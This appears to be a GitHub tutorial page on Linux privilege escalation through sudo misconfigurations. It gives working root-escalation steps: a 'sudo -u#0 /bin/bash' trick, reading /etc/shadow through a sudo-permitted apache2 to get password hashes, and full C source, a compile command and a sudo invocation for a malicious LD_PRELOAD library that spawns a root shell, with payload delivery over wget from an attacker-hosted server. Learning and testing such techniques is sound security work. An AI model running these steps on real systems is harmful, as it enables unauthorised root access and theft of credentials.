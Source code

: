 The `sudo` command allows users to run programs with elevated (root) privileges. In cases where full root access isn't necessary or allowed, system administrators can configure granular sudo privileges for users, allowing them to run specific commands with root privileges while maintaining their regular permission level for the rest of the system.

Any user can check its current situation related to root privileges using this command:

```
sudo -l
```
This will list all the commands the current user is permitted to run with sudo, if any. The sudoers file is typically located at “/etc/sudoers” or “/etc/sudoers.d/”

* If we run this command and see ```/bin/bash``` is runed by anyone as a root we could use this to run it as root:
```
sudo -u#0 /bin/bash
```
* if we have a specific Function like `apache`,  we can get root hash with :
```
sudo apache2 -f /etc/shadow
```
Then we can extract the hashes then use ```su```


**Environment Variables ( LD_PRELOAD )**

Environment Variable: A container that stores important system-wide data needed for tasks. It sets up the environment for the system to work.

Shared Library: Reusable code that can be loaded into memory by a program when it starts. There are two types: static (fixed when the program is created) and shared (loaded dynamically).

LD_PRELOAD: Is an optional Environment Variable that is used to set/load Shared Libraries to a program or script. That means we can set the value of the LD_PRELOAD Environment Variable for a program to tell the program to load the mentioned libraries in it’s memory before starting..


> we are going to make malicious library run before any other libraries.

**STEPS to exploit this**

1. Execute sudo -l to see if we have limited SUDO access to any programs or scripts. For example, if we have a file ```/otp/cleanup.sh``` running with root access without password, we will exploit this as follow.
2. Enumerate to see if we have permission to set the environment variable for the script or program. In this case we see that we can ```SETENV``` which means the same. Also see if the ```env_keep += LD_PRELOAD``` is set here or in the sudoers file. In this case we don’t see that but the ```SETENV``` is enough.
 
![Screenshot from 2024-09-29 00-42-22](https://github.com/user-attachments/assets/b83d3699-fe1a-4f6c-abb0-44090406af44)

3. Write and compile a malicious binary that will give us a root shell. We can write and compile it in the victim machine if gcc and ```vim/nano``` is present there. Or we can write and compile the code in our Attack Machine and then use ```python3 -m http.server 80``` to host the file and wget it in the Victim Machine.
4. creat our script ```exploit.c```:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	}
```
5. compile it:
```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```
6. Now it’s time to load our malicious shared library into the memory:
```
sudo LD_PRELOAD=<location_to_our_shared_library> <location_to_the_script/program>
#ex
sudo LD_PRELOAD=/tmp/exploit.so /opt/cleanup.sh
```
now, we have root access.















Finally, we can use this [GTFOBins](https://gtfobins.github.io/?source=post_page-----3fb61a09f7ba--------------------------------)



















